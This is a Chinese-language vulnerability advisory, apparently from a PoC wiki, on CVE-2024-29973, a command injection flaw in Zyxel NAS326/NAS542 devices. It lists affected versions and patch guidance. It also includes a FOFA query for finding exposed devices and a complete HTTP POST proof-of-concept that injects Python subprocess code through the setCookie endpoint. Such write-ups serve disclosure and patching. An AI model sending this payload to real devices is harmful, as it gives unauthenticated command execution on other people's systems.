

# Zyxel NAS设备 setCookie 未授权命令注入漏洞(CVE-2024-29973)

# 漏洞描述

Zyxel NAS326 V5.21(AAZF.17)C0之前版本、NAS542 V5.21(ABAG.14)C0之前版本存在操作系统命令注入漏洞，该漏洞源于setCookie参数中存在命令注入漏洞，从而导致未经身份验证的远程攻击者可通过HTTP POST请求来执行某些操作系统 (OS) 命令。

影响范围

Zyxel NAS326 < V5.21(AAZF.17)C0
Zyxel NAS542 < V5.21(ABAG.14)C0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"

POC/EXP：

POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHHaZAYecVOf5sfa6

------WebKitFormBoundaryHHaZAYecVOf5sfa6
Content-Disposition: form-data; name="c0"

storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("ifconfig", shell=True)#
------WebKitFormBoundaryHHaZAYecVOf5sfa6--

# 修复方案

厂商已发布升级补丁以修复漏洞，补丁获取链接:https://www.zyxel.com/global/en/support/download

目前厂商已发布了漏洞补丁，受影响客户可以将Zyxel NAS升级到以下版本：
NAS326设备：升级到V5.21(AAZF.17)C0
NAS542设备：升级到V5.21(ABAG.14)C0

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
